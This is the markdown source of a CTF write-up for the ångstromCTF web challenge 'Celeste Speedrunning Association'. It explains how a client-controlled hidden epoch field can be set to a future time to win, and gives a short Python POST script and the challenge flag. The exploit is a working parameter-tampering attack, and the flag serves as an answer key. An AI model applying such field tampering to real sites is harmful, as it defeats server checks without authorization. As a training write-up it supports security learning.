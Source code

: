 ```yaml
---
author: "Asad Ullah"
title: "Celeste Speedrunning Association - ångstromCTF"
description: 
summary: Write-up on web challenge Celeste Speedrunning Association.
date: 2023-04-27T00:04:24+05:00
Section: write-ups
categories:
- writeup
- ctftime.org
tags:
- angstormctf
- web
- epoch

draft: false

---
```


{{< 
ctf
name="Celeste Speedrunning Association" 
difficulty="Easy"  
points="20"
category="Web"
>}}

&nbsp;

&nbsp;


## Description

I love Celeste Speedrunning so much!!! It's so funny to watch!!!

[Here's my favorite site!](https://mount-tunnel.web.actf.co/)

## Approach

Upon examining the Source Code, it appears that the website is utilizing a hidden input field called "start" that utilizes the `Unix` epoch time to verify the present time.

![Untitled](/write-ups/ctftime/angstorm/source.webp)

Once the button is clicked, the server calculates the duration from the start time to when the request is received by the server. If the duration is less than 0 sec the flag will be displayed. However, this can only be accomplished by modifying the epoch value to a future time (higher value), then send the data to server

This can be done using a simple Python script.

```python
import requests

url = 'https://mount-tunnel.web.actf.co/submit'
data = {'start': '16825199999'}

response = requests.post(url, data=data)

print(response.text)
```

![Untitled](/write-ups/ctftime/angstorm/flag.webp)

&nbsp;

---

**Flag: `actf{wait_until_farewell_speedrun}`**

---

&nbsp;

&nbsp;

